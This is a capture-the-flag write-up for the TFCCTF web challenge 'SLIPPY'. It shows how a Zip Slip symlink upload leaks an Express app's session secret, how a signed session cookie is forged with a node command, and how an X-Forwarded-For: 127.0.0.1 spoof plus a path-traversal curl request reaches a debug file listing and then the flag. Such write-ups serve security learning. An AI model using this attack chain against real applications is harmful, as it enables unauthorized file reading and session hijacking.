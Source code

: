 # SLIPPY – 50 points – WEB (Baby)

**Author:** Sagi  
**Flavor text:** *Slipping Jimmy keeps playing with Finger.*

---

We are given a webpage `https://web-slippy-df9c4362a751a4a7.challs.tfcctf.com` that accepts zip file uploads, and lists em under `/files`.

---

## Dockerfile Clue

```dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; \
    mkdir "$rand_dir" && \
    echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && \
    chmod -R +r "$rand_dir"
```

Reading the Dockerfile I noticed the flag is always placed at `/random8/flag.txt`, but since the folder is randomized with 8 characters from `[a-z0-9]`, brute forcing (`36^8 ≈ 2.8 trillion`) is impossible.

---

## Vulnerability

After messing with file uploads a bit and some research, I found this was a **Zip Slip / symlink** vulnerability.  

I wrote and used `symlink_enum.py` to build a zip payload that let me enumerate the server. Uploading this, I could view some files (though `/proc/*` entries like mountinfo came back empty).  

- I added a time stamp to the payloads since i was messing with different ones and had a lot on my machine
- The instance with the server would timeout every 2 minutes making testing frustrating when crafting payloads, had to keep spinning up new ones between testing


---

## Useful Information Leaked

From `/app/.env`:

```
SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
```

From `/app/server.js`:

```js
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
});
```

This shows that a **develop** session is pre-seeded with a known SID.

---

## Forging the Cookie

With the SID and `SESSION_SECRET` I was able to forge a valid cookie using Node’s `cookie-signature`:

```bash
node -e "console.log(require('cookie-signature').sign(
  'amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E',
  '3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b'
))"
```

Output:

```
s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE
```

---

## Debug Route Abuse

There is a dev-only route `/debug/files`.  
It’s protected by:

```js
(req.session.userId === 'develop') && (req.ip === '127.0.0.1')
```

The forged cookie handles the session check. For the IP check, the app uses `trust proxy`, so we can spoof `X-Forwarded-For: 127.0.0.1`.

CURL:

```bash
curl -sSL \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "Cookie: connect.sid=s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE" \
  "https://web-slippy-463ad9a5dac5e550.challs.tfcctf.com/debug/files?session_id=../../.."
```

This lists the root `/`. One of the listed items `tlhedn6f` matched the randomization format from the Dockerfile:

```html
<li class="list-group-item">
  tlhedn6f
  <a href="/files/tlhedn6f" class="button">Download</a>
</li>
```

---

## Flag Access

Once I found the random folder (`tlhedn6f` here), I used the a symlink payload made by `symlink_flag.py` pointing to `/tlhedn6f/flag.txt`.  

Fetching it under `/files/tlhedn6f` outputs the flag.   

---

## Notes

- I first tried replacing cookies in the browser, but the dev middleware also checked `req.ip`, so it was easier to spoof via curl.  
- `/proc/*` files didn’t help since they stream empty with Express.  
- The real solve path is:  
  1. Use Zip Slip to read `.env` + `server.js`.  
  2. Extract `SESSION_SECRET` and SID.  
  3. Forge cookie.  
  4. Spoof IP → access `/debug/files`.  
  5. Spot random dir.  
  6. Symlink to `/random8/flag.txt`.  
  7. Download flag.

---